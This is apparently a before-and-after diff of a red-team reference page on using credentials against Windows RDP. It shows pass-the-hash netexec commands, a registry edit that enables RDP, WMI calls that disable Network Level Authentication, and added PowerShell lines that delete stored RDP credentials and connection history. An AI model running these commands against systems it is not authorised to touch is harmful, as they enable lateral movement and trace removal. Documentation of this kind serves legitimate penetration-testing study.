

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/access/windows-using-credentials.md, in a window 1280 px wide and 1400 px high, scrolled down 7164 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

````diff
--- a/docs/redteam/access/windows-using-credentials.md
+++ b/docs/redteam/access/windows-using-credentials.md
@@ -263,7 +263,7 @@ class RemoteShell(cmd.Cmd):
     root@payload$ netexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
     ```
 
-* Fix CredSSP errors
+* Fix **CredSSP** errors
 
     ```ps1
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
@@ -278,14 +278,47 @@ class RemoteShell(cmd.Cmd):
     netexec rdp 10.10.10.10 -u user -p pass --nla-screenshot
     ```
 
-* Disable NLA
+* Disable Network Level Authentication (NLA)
 
     ```ps1
     PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
     PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
     ```
 
-Abuse RDP protocol to execute commands remotely with the following commands;
+On Windows, the native Remote Desktop client is `mstsc.exe`.
+When launched with the `/public` switch, RDP runs in Public Mode, which uses temporary, non-persistent session settings.
+
+```ps1
+mstsc /public /v:server01
+```
+
+Public Mode is designed for shared systems, jump hosts, and security-sensitive environments, where leaving local artifacts or cached credentials would present an operational risk.
+
+When RDP is launched in Public Mode, the client will:
+
+* Not save credentials
+* Not use cached credentials
+* Not save connection history
+* Not load local RDP settings (printers, drives, clipboard, etc.)
+* Not store passwords in Credential Manager
+
+If RDP was launched without /public, local artifacts may persist.
+These can be manually removed using the following PowerShell commands.
+
+```ps1
+# Remove Stored RDP Credentials
+cmdkey /list | ? { $_ -Match "TERMSRV/" } | % { $_ -Replace ".*: " } | % { cmdkey /delete:$_ }
+
+# Remove Cached Bitmaps and Client Data
+Remove-Item -Path "$Env:LocalAppData\Microsoft\Terminal Server Client\Cache" -Recurse -ErrorAction SilentlyContinue
+
+# Remove RDP Connection History and Device Mappings
+Remove-Item -Path "HKCU:\Software\Microsoft\Terminal Server Client\Default" -Force -ErrorAction SilentlyContinue
+Remove-Item -Path "HKCU:\Software\Microsoft\Terminal Server Client\Servers" -Recurse -Force -ErrorAction SilentlyContinue
+Remove-Item -Path "HKCU:\Software\Microsoft\Terminal Server Client\LocalDevices" -Recurse -Force -ErrorAction SilentlyContinue
+```
+
+Abuse RDP protocol to execute commands remotely with the following commands:
 
 * [Pennyw0rth/netexec](https://github.com/Pennyw0rth/NetExec)
 
````
Also changed, not shown: docs/cloud/azure/azure-ad-conditional-access-policy.md (+6 -1 lines), docs/methodology/bug-hunting-methodology.md (+2 -1 lines), docs/methodology/source-code-analysis.md (+1 -0 lines).
